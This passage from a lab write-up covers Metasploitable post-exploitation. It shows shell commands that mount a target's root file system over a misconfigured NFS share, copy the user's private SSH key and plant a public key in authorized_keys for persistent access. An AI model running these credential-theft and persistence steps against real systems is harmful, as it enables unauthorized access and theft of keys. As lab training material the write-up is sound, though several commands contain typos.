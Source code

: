 ![](../images/automation_and_for_post_exploitation_5.png)

#### 2. Private ssh-Key based Authentication**:
**--> Using auxiliary/scanner/ssh/ssh_login_pubkey**
In this attack we are going to Sniff the target private key and try to gain access using them. 

With that private key we are not only able to access the target machine, but also we can access all the remote server that trust the target client key.

**(Note that we could also plant your own ssh public keys on the target, by adding them into the target machine's .ssh/authorized_keys file, but this technique would allow you to only access the target metasploitable machine, wile the above method provide access to not only the metasploitabe machine but also the remote machine/server which trust the target private key.)**

##### Obtaining target Private keys:
For this attack to carry on and to get the private key of target, **We need to have access to the target file system along with read and write permissions**. In this case, our metasploitable machine is configure to provide **NFS(network file system) server on port 2096** that allows any devices in the network can mount the **'/' file system** of metasploitable machien along with **read and write permission** which is a very bad configuration. So by using NFS we can mount metasploitable '/' directory to our attacker machines. Here we go:
```
#for this we have the nfs-client and rpcbind service package should be insalled
#Check for what filesystem is mountable
showmount -e 192.168.1.103
#Start the rpcbind services
service rpcbind start
#choose a directory where to mount the target filesystem, I choose a new target directory in the tmp folder
mkdir /tmp/target
mount -t nfs 192.168.1.103:/ /tmp/target
#copy the target public key to its authorized_keys
cat /tmp/target/home/msfadmin/.ssh/id_rsa.pub >> /tmp/target/home/msfadmin/.ssh/authorized_keys
#we can also plant our own public key to target authorized_keys ***(alternate)***
#cp /home/kali/.ssh/id_rsa.pub /tmp/target/home/msfadmin/.ssh/autherized_keys/
#Sniff the target private key as target_id_rsa
cp /tmp/target/home/msfadmin/.ssh/id_rsa /home/kali/target_rsa_idd
#Unmount the file system
umount /tmp/target

```
